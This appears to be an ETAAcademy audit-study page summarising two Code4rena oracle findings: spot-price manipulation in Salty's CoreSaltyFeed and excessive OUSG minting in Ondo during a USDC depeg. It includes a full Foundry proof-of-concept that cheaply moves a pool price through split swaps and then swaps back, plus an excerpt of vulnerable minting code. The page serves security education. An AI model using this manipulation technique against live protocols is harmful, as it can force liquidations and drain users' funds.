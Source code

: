 # ETAAcademy-Adudit: 7. Oracle

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>07. Oracle</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>DeFi</th>
          <td>oracle</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[High] The use of spot price by CoreSaltyFeed can lead to price manipulation and undesired liquidations

### Difference between TWAP and Chainlink

- Summary: Chainlink's instant spot prices and CoreSaltyFeed's manipulable prices create arbitrage opportunities. Low liquidity and a $500 maximum reward make attacks profitable. If Chainlink fails, a 3% market change isn't needed for the attack. Borrowers may face unexpected liquidation, and honest liquidators may be unable to act due to price manipulation.

- Impact & Recommendation: Consider replacing CoreSaltyFeed with a different oracle that provides better protection against manipulation, like Band Protocol.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-01-salty#h-03-the-use-of-spot-price-by-coresaltyfeed-can-lead-to-price-manipulation-and-undesired-liquidations) & [Report](https://code4rena.com/reports/2024-01-salty)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: BUSL 1.1
    pragma solidity =0.8.22;
    import "../../dev/Deployment.sol";
    import "../PoolUtils.sol";
    contract H2 is Deployment
        {
        TestERC20 immutable tokenA;
        TestERC20 immutable tokenB;
        address ALICE = address(0x1111);
        address BOB = address(0x2222);
                constructor()
            {
                initializeContracts();
                grantAccessAlice();
                grantAccessBob();
                grantAccessCharlie();
                grantAccessDeployer();
                grantAccessDefault();
                finalizeBootstrap();
                vm.startPrank(address(daoVestingWallet));
                salt.transfer(DEPLOYER, 1000000 ether);
                salt.transfer(address(collateralAndLiquidity), 1000000 ether);
                vm.stopPrank();
                vm.startPrank( DEPLOYER );
                tokenA = new TestERC20("TOKENA", 18);
                tokenB = new TestERC20("TOKENB", 18);
                vm.stopPrank();
                _prepareToken(tokenA);
                _prepareToken(tokenB);
                _prepareToken(weth);
                vm.stopPrank();
                vm.prank(address(dao));
                poolsConfig.whitelistPool( pools, tokenA, tokenB );
                vm.stopPrank();
            }
            // Make the required approvals and transfer to Bob and Alice.
            function _prepareToken(IERC20 token) internal {
                vm.startPrank( DEPLOYER );
                token.approve( address(pools), type(uint256).max );
                token.approve( address(collateralAndLiquidity), type(uint256).max );
                // For WBTC, we can't use 'ether', so we use 10**8.
                uint decimals = TestERC20(address(token)).decimals();
                token.transfer(ALICE, 1_000_000 * (10**decimals));
                token.transfer(BOB, 1_000_000 * (10**decimals));
                vm.startPrank(ALICE);
                token.approve( address(pools), type(uint256).max );
                token.approve( address(collateralAndLiquidity), type(uint256).max );
                vm.startPrank(BOB);
                token.approve( address(pools), type(uint256).max );
                token.approve( address(collateralAndLiquidity), type(uint256).max );
                vm.stopPrank();
            }
            // Create pools that will participate in arbitrage
            // Note: We have all required pools for successful arbitrage, see ArbitrageSearch::_arbitragePath
            // swap: swapTokenIn->WETH
            // arb: WETH->swapTokenIn->WBTC->WETH
            // We have: tokenA/WETH, tokenA/WBTC, WBTC/WETH
            function _makeArbitragePossible(uint amountToDeposit) internal {
                // based on Pools.t.sol::testDepositDoubleSwapWithdraw
                vm.startPrank(DEPLOYER);
                wbtc.approve(address(collateralAndLiquidity), type(uint256).max );
                weth.approve(address(collateralAndLiquidity), type(uint256).max );
                tokenA.approve(address(collateralAndLiquidity), type(uint256).max );
                tokenB.approve(address(collateralAndLiquidity), type(uint256).max );
                tokenA.approve(address(pools), type(uint256).max );
                vm.warp(block.timestamp + stakingConfig.modificationCooldown());
                collateralAndLiquidity.depositCollateralAndIncreaseShare(
                    amountToDeposit * 10**8, amountToDeposit * 1 ether, 0, block.timestamp, false
                );
                vm.stopPrank();
                vm.startPrank(address(dao));
                poolsConfig.whitelistPool( pools, tokenA, wbtc);
                poolsConfig.whitelistPool( pools, tokenA, weth);
                poolsConfig.whitelistPool( pools, tokenB, wbtc);
                poolsConfig.whitelistPool( pools, tokenB, weth);
                vm.stopPrank();
                vm.startPrank(DEPLOYER);
                collateralAndLiquidity.depositLiquidityAndIncreaseShare(
                    tokenA, wbtc, amountToDeposit * 1 ether, amountToDeposit * 10**8, 0,
                    block.timestamp, false
                );
                collateralAndLiquidity.depositLiquidityAndIncreaseShare(
                    tokenB, wbtc, amountToDeposit * 1 ether, amountToDeposit * 10**8, 0,
                    block.timestamp, false
                );
                collateralAndLiquidity.depositLiquidityAndIncreaseShare(
                    tokenA, weth, amountToDeposit * 1 ether, amountToDeposit * 1 ether, 0,
                    block.timestamp, false
                );
                collateralAndLiquidity.depositLiquidityAndIncreaseShare(
                    tokenB, weth, amountToDeposit * 1 ether, amountToDeposit * 1 ether, 0,
                    block.timestamp, false
                );
                vm.stopPrank();
            }
            function _getReservesAndPrice(IERC20 _tokenA, IERC20 _tokenB) internal view returns (
                string memory _tokenASymbol, string memory _tokenBSymbol,
                uint reserveA, uint reserveB, uint priceBinA
            ) {
                (reserveA, reserveB) = pools.getPoolReserves(_tokenA, _tokenB);
                _tokenASymbol = TestERC20(address(_tokenA)).symbol();
                _tokenBSymbol = TestERC20(address(_tokenB)).symbol();
                uint8  _tokenADecimals = TestERC20(address(_tokenA)).decimals();
                uint8  _tokenBDecimals = TestERC20(address(_tokenB)).decimals();
                // reserveA / reserveB  || b.decimals - a.decimals  || normalizer
                // 1e8/1e18             || diff 10                  || 1e28
                // 1e18/1e18            || diff 0                   || 1e18
                // 1e18/1e8             || diff -10                 || 1e8
                int8 decimalsDiff = int8(_tokenBDecimals) - int8(_tokenADecimals);
                uint normalizerPower = uint8(int8(18) + decimalsDiff);
                uint normalizer = 10**normalizerPower;
                // price with precision 1e18
                priceBinA = reserveB == 0
                        ? 0
                        : ( reserveA * normalizer ) / reserveB;
            }
            function _printReservesAndPriceFor(IERC20 _tokenA, IERC20 _tokenB) internal view
            {
                (
                    string memory _tokenASymbol,
                    string memory _tokenBSymbol,
                    uint reserveA,
                    uint reserveB,
                    uint priceBinA
                ) = _getReservesAndPrice(_tokenA, _tokenB);
                console2.log("%s reserves: %e", _tokenASymbol , reserveA);
                console2.log("%s reserves: %e", _tokenBSymbol, reserveB);
                console2.log("%s price in %s: %e", _tokenBSymbol, _tokenASymbol, priceBinA);
                console.log("");
            }
            // Extracted some local variables to storage due to too many local variables.
            struct MovePriceParams {
                uint amountToExchange;
                uint expectedMovementPercents;
                uint expectedLoss;
            }
            uint gasBefore = 1; // Set to 1 to save gas on updates and obtain more accurate gas estimations.
            uint stepsCount;
            // Splitting a swap into several steps will significantly reduce slippage.
            // More steps will further reduce slippage, thereby decreasing the cost of the attack.
            // However, too many steps can incur high gas costs; for instance, 100 steps will cost approximately 3+4=7 million gas (as indicated in the console.log output).
            uint constant steps = 100;
            function _movePrice(MovePriceParams memory p) internal {
                /* Before the attack */
                console.log("\n%s", "__BEFORE");
                // Check price before
                (,,,,uint priceBefore) = _getReservesAndPrice(tokenA, weth);
                assertEq(1 ether, priceBefore); // price is 1:1
                _printReservesAndPriceFor(tokenA, weth);
                uint wethBefore = weth.balanceOf(ALICE);
                uint tokenABefore = tokenA.balanceOf(ALICE);
                console2.log("weth.balanceOf(ALICE): %e", wethBefore);
                console2.log("tokenA.balanceOf(ALICE): %e", tokenABefore);
                /* Move the price */
                vm.startPrank(ALICE);
                gasBefore = gasleft();
                for (uint i; i < steps; i++){
                    pools.depositSwapWithdraw(tokenA, weth, p.amountToExchange/steps, 0, block.timestamp + 300);
                }
                console.log("Gas first(for) loop: ", gasBefore - gasleft());
                /* After the attack */
                console.log("\n%s", "__AFTER");
                // Console.log the output
                _printReservesAndPriceFor(tokenA, weth);
                uint wethAfter = weth.balanceOf(ALICE);
                uint tokenAAfter = tokenA.balanceOf(ALICE);
                console2.log("weth.balanceOf(ALICE): %e", weth.balanceOf(ALICE));
                console2.log("tokenA.balanceOf(ALICE): %e", tokenA.balanceOf(ALICE));
                uint wethGained = wethAfter - wethBefore;
                uint tokenALost = tokenABefore - tokenAAfter;
                console2.log("weth.balanceOf(ALICE) diff: %e", wethGained);
                console2.log("tokenA.balanceOf(ALICE) diff: %e", tokenALost);
                // Note: Since the price of tokenA and WETH are the same at the start, with a 1:1 ratio,
                // we can subtract and add them as equivalent values.
                uint attackPrice = tokenALost - wethGained;
                console2.log("Losses for the attacker (before swapping back): %e", attackPrice);
                // Assert that the attack was successful and inexpensive.
                (,,,,uint priceAfter) = _getReservesAndPrice(tokenA, weth);
                uint priceDiff = priceAfter - priceBefore;
                assertTrue(priceDiff >= p.expectedMovementPercents * 1 ether / 100);
                /* The attacker can further reduce the cost by exchanging back. */
                /* After the exchange, the price is moved back. */
                console.log("\n%s", "__AFTER_EXCHANGING_BACK");
                (,,,,uint currentPrice) = _getReservesAndPrice(tokenA, weth);
                uint step = p.amountToExchange/steps;
                gasBefore = gasleft();
                while (currentPrice > 1 ether){
                    pools.depositSwapWithdraw(weth, tokenA, step, 0, block.timestamp);
                    (,,,,currentPrice) = _getReservesAndPrice(tokenA, weth);
                    stepsCount++;
                }
                // Console.log the output
                console2.log("Gas second(while) loop: ", gasBefore - gasleft());
                console2.log("stepsCount", stepsCount);
                _printReservesAndPriceFor(tokenA, weth);
                uint wethAfterBalancing = weth.balanceOf(ALICE);
                uint tokenAAfterBalancing = tokenA.balanceOf(ALICE);
                console2.log("weth.balanceOf(ALICE): %e", weth.balanceOf(ALICE));
                console2.log("tokenA.balanceOf(ALICE): %e", tokenA.balanceOf(ALICE));
                int wethDiff = int(wethAfterBalancing) - int(wethBefore);
                int tokenADiff = int(tokenAAfterBalancing) - int(tokenABefore);
                console2.log("weth.balanceOf(ALICE) diff: %e", wethDiff);
                console2.log("tokenA.balanceOf(ALICE) diff: %e", tokenADiff);
                // Note: Since the price of tokenA and WETH are the same at the start, with a 1:1 ratio,
                // we can subtract and add them as equivalent values.
                int sumDiff = wethDiff + tokenADiff;
                console2.log("Diff (positive=profit) for the attacker: %e", sumDiff);
                console2.log("Arbitrage profits for DAO: %e", pools.depositedUserBalance(address(dao), weth ));
            }
        function testMovePrice10PercentsFor1000EtherPools() public
            {
                _makeArbitragePossible(1_000);
                _movePrice(MovePriceParams(75 ether, 10, 0.0363 ether));
            }
        function testMovePrice3PercentsFor1000EtherPools() public
            {
                _makeArbitragePossible(1_000);
                _movePrice(MovePriceParams(23 ether, 3, 0.0036 ether));
            }
        function testMovePrice3PercentsFor100EtherPools() public
            {
                _makeArbitragePossible(100);
                _movePrice(MovePriceParams(2.3 ether, 3, 0.0004 ether));
            }
        function testMovePrice3PercentsFor10EtherPools() public
            {
                _makeArbitragePossible(10);
                _movePrice(MovePriceParams(0.23 ether, 3, 0.00008 ether));
            }
    }

  ```

  </details>

## 2.[High] OUSGInstantManager will allow excessive OUSG token minting during USDC depeg event

### Excessive OUSG token minting during USDC depeg

- Summary: OUSGInstantManager allows users to mint OUSG tokens using USDC, based on a fixed conversion rate, without validation checks on the current USDC price. The minting logic relies on the OUSG price obtained from an oracle, constrained to ensure stability. During a USDC depeg event, where USDC's value deviates from 1 USD, users can potentially mint excessive OUSG tokens, leading to a significant impact on token supply.

- Impact & Recommendation: Excessive OUSG token minting during USDC depeg events. Implement an additional Oracle to consider current USDC price when calculating OUSG token minting.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-ondo-finance#h-01-ousginstantmanager-will-allow-excessive-ousg-token-minting-during-usdc-depeg-event) & [Report](https://code4rena.com/reports/2024-03-ondo-finance)

  <details><summary>POC</summary>

  ```solidity
       function setPrice(int256 newPrice) external onlyRole(SETTER_ROLE) {
       if (newPrice <= 0) {
         revert InvalidPrice();
       }
   @-> if (block.timestamp - priceTimestamp < MIN_PRICE_UPDATE_WINDOW) {
         revert PriceUpdateWindowViolation();
       }
   @-> if (_getPriceChangeBps(rwaPrice, newPrice) > MAX_CHANGE_DIFF_BPS) {
         revert DeltaDifferenceConstraintViolation();
       }
       // Set new price
       int256 oldPrice = rwaPrice;
       rwaPrice = newPrice;
       priceTimestamp = block.timestamp;
       emit RWAPriceSet(oldPrice, newPrice, block.timestamp);
     }

       function _getMintAmount(
           uint256 usdcAmountIn,
           uint256 price
       ) internal view returns (uint256 ousgAmountOut) {
           uint256 amountE36 = _scaleUp(usdcAmountIn) * 1e18;
           ousgAmountOut = amountE36 / price;
       }

  ```

  </details>
